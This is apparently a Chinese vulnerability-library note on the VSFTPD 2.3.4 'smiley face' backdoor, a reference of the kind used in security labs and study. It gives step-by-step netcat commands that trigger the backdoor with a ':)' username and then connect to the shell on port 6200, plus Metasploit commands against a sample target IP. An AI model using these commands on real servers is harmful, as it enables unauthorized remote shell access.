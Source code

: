```yaml
---
title: 笑脸漏洞(VSFTPD2.3.4)
date: 2025-06-08 17:10:00 +0800
last_modified_at: 2025-06-08 17:10:00 +0800
categories: [漏洞库]
tags: [漏洞库 , RCE , FTP]
math: true
mermaid: true
---
```



# 笑脸漏洞(VSFTPD2.3.4)

## 手工利用

利用瑞士小军刀（netcat），连接靶机的21端口，输入user带有：），pass随便输入。

`nc x.x.x.x 21`

`user a：） pass 123456`

然后直接连接6200端口
` nc x.x.x.x 6200`

## MSF利用

    search vsftpd
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOSTS 172.16.1.104
    run